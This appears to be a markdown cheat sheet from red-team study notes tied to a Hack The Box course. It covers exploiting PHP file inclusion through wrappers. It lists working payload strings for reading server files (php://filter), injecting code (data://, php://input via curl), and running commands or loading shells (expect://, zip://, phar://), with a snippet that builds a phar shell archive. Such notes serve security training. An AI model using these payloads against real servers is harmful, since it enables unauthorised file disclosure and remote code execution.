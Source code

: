 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file`

To **inject** some code (encoded as base64): 

* `data://text/plain;base64,<base64 php code here>`
* `allow_url_include` must be enabled

To **inject** some code (as POST data), use `php://input` and:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>
If expect is installed, we can use it to run commands:

* `expect://id`: run the `id` command
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

```php!
<?php // php --define phar.readonly=0 shell.php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
</div></div>
